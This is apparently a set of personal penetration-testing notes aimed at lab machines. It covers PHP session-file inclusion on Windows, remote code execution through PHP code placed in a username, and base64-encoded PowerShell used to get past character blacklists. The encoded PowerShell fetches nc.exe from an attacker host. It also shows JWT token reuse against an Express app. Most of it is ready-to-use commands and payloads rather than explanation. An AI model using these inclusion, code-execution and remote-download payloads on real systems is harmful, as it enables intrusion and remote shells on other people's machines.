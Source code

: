 
# IPV6 ?



# unix wildcards
https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt

# windows php cookies
PHP stores the session files in C:\Windows\TEMP in the format sess_<cookie> . In order to read
our session file we will use the session ID we acquired. In this case the session file would be
sess_923nktm0vmmi12qrptls332t5o . Let's see if we can read it
Replace everything after sess_ with your own cookie value.
```
curl -X GET http://10.10.10.151/blog/?
lang=/windows/temp/sess_923nktm0vmmi12qrptls332t5o
```
f we can create a username containing PHP code, we could potentially gain RCE. Consider the
following as a username.
```
<?=`powershell whoami`?>
```

## bypass blacklisting chars
```
echo "wget http://10.10.14.23/nc.exe -o C:\\Windows\\TEMP\\nc.exe" | iconv -t
UTF-16LE | base64
```
```
<?=`powershell /enc
dwBnAGUAdAAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMgAzAC8AbgBjAC4AZQB4AGUA
IAAtAG8AIABDADoAXABXAGkAbgBkAG8AdwBzAFwAVABFAE0AUABcAG4AYwAuAGUAeABlAAoA`?>
```


# procdump


# express using jwt token
* get the token
```
curl -s -X POST  http://10.10.10.137:3000/login -d "username=admin&password=pas111223" | jq
```

* use the token
```
curl -s http://10.10.10.137:3000/ -H ​ 'Authorization: Bearer
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNT
U4ODU1NTYzLCJleHAiOjE1NTg5NDE5NjN9.s7ZbrqwW--H6Ae-UWs3VeO21U2XRwfNEDeL0gAYI
pX0'​ | jq
```
